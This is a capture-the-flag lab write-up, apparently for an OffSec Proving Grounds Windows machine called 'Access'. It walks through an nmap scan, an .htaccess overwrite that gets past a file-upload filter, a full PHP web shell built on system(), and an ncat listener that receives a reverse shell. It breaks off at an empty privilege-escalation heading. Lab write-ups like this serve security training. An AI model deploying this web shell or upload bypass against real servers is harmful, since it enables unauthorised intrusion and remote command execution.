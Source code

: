 ## First eunumeration with nmap 

```shell
# Nmap 7.94SVN scan initiated Mon Feb 26 10:52:11 2024 as: nmap -sC -sV -T4 -oN service.nmap -p 53,80,88,135,139,389,445,464,593,636,3268,3269,5985,9389 -Pn 192.168.163.187
Nmap scan report for 192.168.163.187
Host is up (0.15s latency).

PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Apache httpd 2.4.48 ((Win64) OpenSSL/1.1.1k PHP/8.0.7)
|_http-title: Access The Event
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.48 (Win64) OpenSSL/1.1.1k PHP/8.0.7
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-02-26 09:52:56Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: access.offsec0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: access.offsec0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp open  mc-nmf        .NET Message Framing
Service Info: Host: SERVER; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2024-02-26T09:53:10
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: 36s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Feb 26 10:53:17 2024 -- 1 IP address (1 host up) scanned in 65.29 seconds
```


## Enumerating port 80 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/82904320-6246-447e-8f83-13db9f8822ca)

there's a web server running on port port `80`. checking the ip on a browser, we got a webpage 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/483f2902-3973-49ff-9eb4-2b745167abfd)

fuzzing the web application, we got diff dirs.

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/37803a93-f0eb-4210-b80f-f485d848e830)

There's an upload function in the `buy-ticket` let's try upload a malicious file. 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/bd416e86-70c2-43b2-b7f5-f301e9d235a6)

trying to upload a php shell.

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/400c15ea-ba97-4613-babb-8fda69f695fc)

we got error file type not supported. let's try bypassing it

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/beaa8b57-e876-4687-9443-3a7a5016296b)

after some research, found out we could overwrite the `.htaccess` and make a php shell uploadable. 

```
echo "AddType application/x-httpd-php .php16" > .htaccess
```

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/bcfe0764-5268-457b-831f-0fbbd8dc3e04)

upload a file with `<?php phpinfo(); ?>` as `.php16`. 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/30363611-a51a-41b6-a045-2c483508860b)

upload a new file `.php16`. 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/b6de0240-b442-4a6e-adf5-7407c847159f)

successfully upload the shell. 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/3cb21461-a2d7-44f0-af8b-79be8364cbe5)

triggered a phpinfo. let's spawn a reverse shell. 

```php
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
<script>document.getElementById("cmd").focus();</script>
</html>
```

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/f84ad047-7fa4-4f4d-b205-9993454a587f)

uploaded a php cmd shell and we can run RCE. 

```powershell
┌──(n16hth4wk👽n16hth4wk-sec)-[~/Documents/PGP/Access]
└─$ rlwrap ncat -lnvp 443
Ncat: Version 7.94SVN ( https://nmap.org/ncat )
Ncat: Listening on [::]:443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 192.168.163.187:50445.

PS C:\xampp\htdocs\uploads> whoami 
access\svc_apache
PS C:\xampp\htdocs\uploads> 
```


## Privilege Escalation 



